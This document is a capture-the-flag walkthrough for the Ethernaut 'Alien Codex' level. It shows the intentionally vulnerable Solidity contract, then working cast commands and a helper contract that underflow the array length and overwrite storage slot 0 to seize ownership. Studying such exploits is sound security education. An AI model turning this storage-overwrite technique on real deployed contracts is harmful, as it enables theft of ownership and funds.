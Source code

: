 ## Alien Codex Level Outline

**Difficulty : 7/10**

You've uncovered an Alien contract. Claim ownership to complete the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

## Solution

Inherited contracts share the same storage slot with their derived contract. So we need to modify storage slot 0 to compelte this level.

Remember that dynamic arrays are not stored contigiously in storage. Instead their **storage slot contains the size of the array** and to find the memory address of the first element in storage it uses keccak256 hashing.

```
memory_address = keccak256(p)

where :
memory_address  : address of starting element of dynamic array
p               : storage position of dynamic array
```
> in this instance, storage p = 1 due to owner and contact sharing storage slot 0

### Walkthrough
##### 1. call `make_contact()` so that we can satisfy the `contacted()` modifier
```console
cast send $LEVEL_ADDRESS "make_contact()" --private-key $PRIVATE_KEY
```

##### 2. let's inspect storage and make sense of what we need to do
```console
cast storage $LEVEL_ADDRESS 0
```
output :
```
0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

let's also find the current contract owner
```console
cast call $LEVEL_ADDRESS "owner()"
```
output :
```
0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

we can see that the variable `address owner` and `bool contact` have been packed into storage slot 0. We want to attack this storage slot to change the owner to our address.

this means that stroage slot 1 will hold the length of our dynamic array `codex`

```console
cast storage $LEVEL_ADDRESS 1
```
output
```
0x0000000000000000000000000000000000000000000000000000000000000000
```

##### 3. forcing a underflow
if we call the `retract()` method, the length of `codex` will underflow resulting in the array having a length of 2^256 - 1, which is the same size as the total contract storage as the EVM reserves 2^256 - 1 slots of 32 bytes.

```console
cast send $LEVEL_ADDRESS "retract()" --private-key $PRIVATE_KEY
```

let's confirm that the underflow was succesful by checking storage slot 1 (which will hold the length of the array)
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```


##### 3. calculting attack parameters to modify storage slot 0
now that the length of `codex` is equal to the size of the contract storage, we can use the function `revise(uint,bytes32)` to modify any storage slot

we know that the `owner` variable is located at storage slot 0, we have to provide an index to `revise(uint,bytes32)` such that it will overflow the maximal length of `codex` and point to storage slot 0.

calculation of index revise_index to cause an overflow to storage slot 0
```
codex_memory_address = keccak256(bytes32(1))

revise_index = 2^256 - codex_memory_address
```

to quickly calcualte revise_index, open remix and run the following contract

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.4.8;

contract Calc {
    uint256 public revise_index;

    function getIndex() public {
        bytes32 codex_index = keccak256(bytes32(uint256(1)));
        revise_index = 2 ** 256 - 1 - uint(codex_index) + 1;
    }
}
```
> credit to [Igor Yalovoy](https://ylv.io/ethernaut-alien-codex-solution/) for the script

this returns a value of :

```
revise_index=35707666377435648211887908874984608119992236509074197713628505308453184860938
```

when we call `revise(uint,bytes32)` with the value above as the index, it will overflow `codex` and point to storage slot 0. We can prove this quickly by adding the memory address of 'codex' with `revise_index` together

```
// codex memory address
0x4EF1D2AD89EDF8C4D91132028E8195CDF30BB4B5053D4F8CD260341D4805F30A 

// revise_index in hex
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6

// adding them together yields 
0x10000000000000000000000000000000000000000000000000000000000000000

// which overflows to 
0x0000000000000000000000000000000000000000000000000000000000000000
```
> bonus : we can target any address below `codex memory address` by adding the index of the storage slot that we want to attack to `revise_index` e.g. to attack storage slot 3, we would calculate `revise_index = revise_index + 3`

##### 4. sending transaction to complete level

we first need to left pad our EOA address because the address data type requires 20bytes but `revise` requires us to send it 32bytes
```
// example EOA
0x8aFF5cA996F77487a4f04F1ce905Bf3d27455580

// left-padding EOA with 12 bytes
0x0000000000000000000000008aFF5cA996F77487a4f04F1ce905Bf3d27455580
```

```console
cast send $LEVEL_ADDRESS "revise(uint,bytes32)" 35707666377435648211887908874984608119992236509074197713628505308453184860938 \
$LEFT_PADDED_EOA --private-key $PRIVATE_KEY
```

## Further Reading
[Write up to a simmilar problem](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
